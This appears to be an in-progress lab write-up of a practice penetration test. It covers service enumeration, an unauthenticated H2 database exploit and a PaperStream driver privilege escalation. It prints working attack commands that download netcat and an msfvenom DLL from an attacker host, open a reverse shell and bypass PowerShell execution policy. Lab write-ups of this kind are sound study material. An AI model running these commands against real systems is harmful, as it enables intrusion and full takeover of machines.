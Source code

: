 #InProgress 
```IP
 192.168.204.66
```
# Enumeration
## SMB
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124130616.png?raw=true)
## RPC

## HTTP 80
IIS 10.0
H2 free java sql database engine
Version 1.4.199 ????

/html
```
links.html
license.html
faq.html
stylesheet.css
main.html
download.html
history.html
frame.html
advanced.html
features.html
search.js
source.html
tutorial.html
changelog.html
build.html
```
/text
/help
/javadoc
```
index.html
stylesheet.css
animate.js
overview.html
```
JDBC API
## HTTP 8082
H2 login page
it is possible to acces with user sa and blank password
## 4451 
ctisystemmsg
## 5040

## 7680
pando-pub

## 9092
XmlIpcRegSvc
## 9282
swtp-port2
# Exploitation
## H2 database engine
Unauthenthicated RCE
https://gist.githubusercontent.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed/raw/152ffcd996497e01cfee1ceb7237375f1a1e72f2/h2-exploit.py
```
python h2_rce.py -H  192.168.204.66:8082 -d jdbc:h2:~/test
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124121924.png?raw=true)
we can read files
```
SELECT FILE_READ('C:\Windows\System32\drivers\etc\hosts', NULL);
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124125220.png?raw=true)
```
CREATE ALIAS REVEXEC AS $$ String shellexec(String cmd) throw java.io.IOException {java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : ""; }$$;
```
However it doesnt seem capable of running alias statements
Another exploit
https://www.exploit-db.com/exploits/49384
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124131339.png?raw=true)
```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("curl http://192.168.45.185:80/nc64.exe -o C:/Windows/Temp/nc.exe").getInputStream()).useDelimiter("\\Z").next()');
```
```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:/Windows/Temp/nc.exe 192.168.45.185 8082 -e cmd.exe").getInputStream()).useDelimiter("\\Z").next()');
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124134446.png?raw=true)

# PrivEsc

## Manual
Our shell doesnt work very well...
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124135917.png?raw=true)


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124152803.png?raw=true)
PaperStream IP driver 1.42

Seems like there is a Local PE exploit for this
https://www.exploit-db.com/exploits/49382

we follow the instructions
```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.45.185 LPORT=8082
```
from /windows/system32 we can run some commands, and we can verify that the target runs in an x64 archistecture
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124154714.png?raw=true)

```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("curl http://192.168.45.185:8000/shell.dll -o C:/Windows/Temp/UninOldIS.dll").getInputStream()).useDelimiter("\\Z").next()');
```
```
curl http://192.168.45.185:8000/PaperTemp.ps1 -o C:\Windows\Temp\PaperTemp.ps1
```
```
curl http://192.168.45.185:8000/shell.dll -o C:\Windows\Temp\UninOldIS.dll
```
powershell directory
```
cd C:\Windows\System32\WindowsPowerShell\v1.0
```
```
powershell.exe -ep bypass C:\Windows\Temp\PaperTemp.ps1
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124162237.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124162349.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement
